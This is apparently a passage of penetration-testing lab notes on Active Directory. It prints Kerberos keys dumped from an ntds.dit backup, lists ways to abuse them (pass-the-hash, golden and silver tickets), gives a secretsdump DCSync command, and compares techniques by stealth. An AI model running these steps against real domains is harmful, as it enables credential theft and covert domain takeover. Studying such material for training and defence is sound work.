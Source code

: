 **Kerberos Keys Extraction:**
```
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
```

### Extracted Credential Analysis

**User Account Credentials:**
- **Administrator:** Domain administrator account
- **krbtgt:** Key Distribution Center service account
- **Service Accounts:** iis_service and other service accounts
- **User Accounts:** dave, stephanie, jeff, jeffadmin, pete, jen
- **Computer Accounts:** DC1$, WEB04$, FILES04$, CLIENT74$, etc.

**Credential Utilization Options:**
- **Password Cracking:** Attempt to crack NTLM hashes for plaintext passwords
- **Pass-the-Hash:** Use hashes directly for authentication
- **Golden Tickets:** Use krbtgt hash for persistent domain access
- **Silver Tickets:** Use service account hashes for specific service access

### Alternative Persistence Methods

**DCSync Alternative:**
```bash
# Remote credential extraction using DCSync
impacket-secretsdump -just-dc corp.com/jeffadmin:"password"@192.168.50.70
```

**DCSync Advantages:**
- **Remote Execution:** No need for direct domain controller access
- **Stealth Factor:** Uses legitimate AD replication protocols
- **Tool Independence:** No need to upload additional tools
- **Network-Based:** Operates over standard AD communication channels

### Shadow Copy vs DCSync Comparison

| Feature | Shadow Copy | DCSync |
|---------|-------------|---------|
| **Access Required** | Local DC Admin | Domain Admin Rights |
| **Tool Upload** | vshadow.exe required | No tools needed |
| **Detection Risk** | File system activity | Network replication traffic |
| **Stealth Level** | Moderate | High |
| **Credential Scope** | All domain credentials | Selective credential extraction |
| **Forensic Artifacts** | Shadow copy files | Minimal artifacts |


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname